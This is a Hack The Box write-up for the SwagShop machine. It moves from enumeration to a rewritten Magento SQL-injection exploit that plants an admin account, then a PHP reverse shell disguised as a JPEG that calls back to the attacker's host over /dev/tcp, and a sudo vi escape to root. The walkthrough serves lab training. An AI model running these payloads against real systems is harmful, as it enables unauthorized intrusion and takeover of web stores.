



---
search:
  exclude: true
---
# SwagShop Writeup

## Introduction :

SwagShop is an easy Linux box that was released back in May 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → ping 10.10.10.140
      PING 10.10.10.140 (10.10.10.140) 56(84) bytes of data.
      64 bytes from 10.10.10.140: icmp_seq=1 ttl=63 time=84.7 ms
      64 bytes from 10.10.10.140: icmp_seq=2 ttl=63 time=73.5 ms
      64 bytes from 10.10.10.140: icmp_seq=3 ttl=63 time=80.2 ms
      ^C
      --- 10.10.10.140 ping statistics ---
      3 packets transmitted, 3 received, 0% packet loss, time 2003ms
      rtt min/avg/max/mdev = 73.461/79.465/84.723/4.627 ms
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -F 10.10.10.140
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-13 12:59 CET
      Nmap scan report for 10.10.10.140
      Host is up (0.078s latency).
      Not shown: 98 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
      → nmap -sCV -p22,80 10.10.10.140
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-13 13:00 CET
      Nmap scan report for 10.10.10.140
      Host is up (0.080s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
      |   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
      |_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Home page
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 11.74 seconds
    
    
    

## **Part 2 : Getting User Access**

We see that our nmap scan picked up the 80th port, let's enumerate it using dirsearch.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → dirsearch -u http://10.10.10.140/ -e php,html,js,txt -x 403 -r
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, html, js, txt | HTTP method: get | Threads: 10 | Wordlist size: 7107 | Recursion level: 1
    
      Error Log: /home/nihilist/.dirsearch/logs/errors-19-12-13_13-07-32.log
    
      Target: http://10.10.10.140/
    
      [13:07:32] Starting:
    

While that runs in the background, we browse to it and see what we're dealing with. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → curl -sk http://10.10.10.140 | grep Magento
    <****address class="copyright">(C) 2014 Magento Demo Store. All Rights Reserved.<**/address>
    

Seems like we have a Magento webserver to work with ! let's run a quick searchsploit command with the Magento command to see which exploits are publicly available for this service. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
      → searchsploit Magento
      ------------------------------------- ----------------------------------------
       Exploit Title                       |  Path
                                           | (/usr/share/exploitdb/)
      ------------------------------------- ----------------------------------------
      Magento 1.2 - '/app/code/core/Mage/A | exploits/php/webapps/32808.txt
      Magento 1.2 - '/app/code/core/Mage/A | exploits/php/webapps/32809.txt
      Magento 1.2 - 'downloader/index.php' | exploits/php/webapps/32810.txt
      Magento < 2.0.6 - Arbitrary Unserial | exploits/php/webapps/39838.php
      Magento CE < 1.9.0.1 - (Authenticate | exploits/php/webapps/37811.py
      Magento Server MAGMI Plugin - Multip | exploits/php/webapps/35996.txt
      Magento Server MAGMI Plugin 0.7.17a  | exploits/php/webapps/35052.txt
      Magento eCommerce - Local File Discl | exploits/php/webapps/19793.txt
      Magento eCommerce - Remote Code Exec | exploits/xml/webapps/37977.py
      eBay Magento 1.9.2.1 - PHP FPM XML e | exploits/php/webapps/38573.txt
      eBay Magento CE 1.9.2.1 - Unrestrict | exploits/php/webapps/38651.txt
      ------------------------------------- ----------------------------------------
      Shellcodes: No Result
    

Let's first locate the python script n° 37977 which could possibly give us the ability to execute remote code onto the webserver. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → locate 37977.py
      /usr/share/exploitdb/exploits/xml/webapps/37977.py
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → cp /usr/share/exploitdb/exploits/xml/webapps/37977.py .
    

Now that's saved locally, we'll continue searching a bit before coming back to it. Meanwhile our dirsearch scan returned with a few results for us :
    
    
      [13:07:33] 301 -  309B  - /js  ->  http://10.10.10.140/js/
      [13:07:53] 301 -  310B  - /app  ->  http://10.10.10.140/app/
      [13:07:54] 200 -    5KB - /app/etc/config.xml
      [13:07:54] 200 -    2KB - /app/etc/local.xml
      [13:07:54] 200 -    9KB - /app/etc/local.xml.additional
      [13:07:54] 200 -    2KB - /app/etc/local.xml.template
      [13:08:01] 200 -  717B  - /cron.sh
      [13:08:01] 200 -    0B  - /cron.php
      [13:08:04] 301 -  313B  - /errors  ->  http://10.10.10.140/errors/
      [13:08:04] 200 -    2KB - /errors/
      [13:08:05] 200 -    1KB - /favicon.ico
      [13:08:09] 200 -  946B  - /includes/
      [13:08:09] 301 -  315B  - /includes  ->  http://10.10.10.140/includes/
      [13:08:09] 200 -   16KB - /index.php
      [13:08:10] 200 -   44B  - /install.php
      [13:08:11] 301 -  318B  - /js/tiny_mce  ->  http://10.10.10.140/js/tiny_mce/
      [13:08:11] 200 -    4KB - /js/tiny_mce/
      [13:08:11] 301 -  310B  - /lib  ->  http://10.10.10.140/lib/
      [13:08:11] 200 -   10KB - /LICENSE.txt
      [13:08:14] 301 -  312B  - /media  ->  http://10.10.10.140/media/
      [13:08:18] 200 -  886B  - /php.ini.sample
      [13:08:20] 301 -  314B  - /pkginfo  ->  http://10.10.10.140/pkginfo/
      [13:08:23] 200 -  571KB - /RELEASE_NOTES.txt
      [13:08:24] 301 -  312B  - /shell  ->  http://10.10.10.140/shell/
      [13:08:24] 200 -    2KB - /shell/
      [13:08:26] 301 -  311B  - /skin  ->  http://10.10.10.140/skin/
      [13:08:31] 200 -  755B  - /var/backups/
      [13:08:31] 301 -  310B  - /var  ->  http://10.10.10.140/var/
      [13:08:31] 200 -    4KB - /var/cache/
    

Seems like our dirsearch scan came back with a few interesting directories for us to inspect. Let's use a web browser of our choice to inspect the /app directory. For this example we'll use lynx.
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
      → lynx http://10.10.10.140/app/
    
    

Seems like we can list it's contents ! Let's navigate into etc. 

Locale.xml seems juicy. 
    
    
      Wed, 08 May 2019 07:23:09 +0000 b355a9e0cd018d3f7f03607141518419
      false localhost root fMVWh7bDHpgZkyfqQXreTjU9 swagshop SET NAMES utf8
      mysql4 pdo_mysql 1 files admin
    

And we have credentials ! although the password seems to be encrypted. Let's return to our python script n°37977 and see if we are able to execute it in either python1, 2 or 3.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
    → python 37977.py
      File "37977.py", line 9
        ////////////////////////
        ^
    SyntaxError: invalid syntax
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
    → python2 37977.py
      File "37977.py", line 9
        ////////////////////////
         ^
    SyntaxError: invalid syntax
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
    → python3 37977.py
      File "37977.py", line 9
        ////////////////////////
        ^
    SyntaxError: invalid syntax
    

Looking at the results, we see that the script has been badly written so we will re-write it. 
    
    
                                                                                                                                                                                                                  37977.py
    import requests
    import base64
    import sys
    
    target = "http://10.10.10.140/"
    
    if not target.startswith("http"):
        target = "http://" + target
    
    if target.endswith("/"):
        target = target[:-1]
    
    target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
    
    q="""
    SET @SALT = 'rp';
    SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
    SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
    INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
    INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
    """
    
    
    query = q.replace("\n", "").format(username="forme", password="forme")
    pfilter = "popularity[from]=0&popularity;[to]=3&popularity;[field_expr]=0);{0}".format(query)
    
    # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
    r = requests.post(target_url,
                      data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                            "filter": base64.b64encode(pfilter),
                            "forwarded": 1})
    if r.ok:
        print "WORKED"
        print "Check {0}/admin with creds forme:forme".format(target)
    else:
        print "DID NOT WORK"
    

Now that the script has been re-written, we try to launch it in the same way we tried before. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → python 37977.py
        File "37977.py", line 33
          print "WORKED"
                ^
      SyntaxError: Missing parentheses in call to 'print'. Did you mean print("WORKED")?
    

Let's not forget that this script is a bit old and has got it's print statements without any parentheses so we will use python2 to launch it. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → python2 37977.py
      DID NOT WORK
    

Out of luck ! That's because it's not the correct url. we need to replace the URL at the top with "http://10.10.10.140/index.php/" 
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → nano 37977.py
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/SwagShop ]
      → python2 37977.py
      WORKED
      Check http://10.10.10.140/index.php/admin with creds forme:forme
    
    

And it worked ! let's check out the login page with the credentials forme:forme. 

 

We have been able to log in ! Now looking back at our searchsploit results we see yet another python script that looks intersting, let's copy it into our current directory. 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/SwagShop]
    → nano nihilist.jpg
    
    
    
      <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.10/1234 0>&1'");
    ?****>

next we go to newsletter > newsletter templates > add new template and do the following :

next we go to System > configuration > developer > template settings > allow symlinks and therefore we should be able to preview our template which will browse to the php reverse shell hidden in the thumbnail jpg named nihilist.jpg, which should send the incoming shell connection to our netcat listener on port 1234
    
    
    λ nihilist [ 10.10.14.10/23 ] [/usr/share]
    → nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.140] 53234
    bash: cannot set terminal process group (1292): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@swagshop:/var/www/html$ cd /home && ls
    haris
    www-data@swagshop:/home$ cd haris
    cd haris
    www-data@swagshop:/home/haris$ cat user.txt
    cat user.txt
    a4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Part 3 : Getting Root Access**

we type sudo -l
    
    
      www-data@swagshop:/home/haris$ sudo -l
      sudo -l
      Matching Defaults entries for www-data on swagshop:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User www-data may run the following commands on swagshop:
          (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    
    www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/nihilist
          sudo /usr/bin/vi /var/www/html/nihilist
          Vim: Warning: Output is not to a terminal
          Vim: Warning: Input is not from a terminal
    
          E558: Terminal entry not found in terminfo
          'unknown' not known. Available builtin terminals are:
              builtin_amiga
              builtin_beos-ansi
              builtin_ansi
              builtin_pcansi
              builtin_win32
              builtin_vt320
              builtin_vt52
              builtin_xterm
              builtin_iris-ansi
              builtin_debug
              builtin_dumb
          defaulting to 'ansi'
    
    
          :!/bin/bash
          whoami
          root
          cat /root/root.txt
          c2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
             ___ ___
           /| |/|\| |\
          /_| ´ |.` |_\           We are open! (Almost)
            |   |.  |
            |   |.  |         Join the beta HTB Swag Store!
            |___|.__|       https://hackthebox.store/password
    
                             PS: Use root flag as password!
    

## **Conclusion**

Here we can see the progress graph :

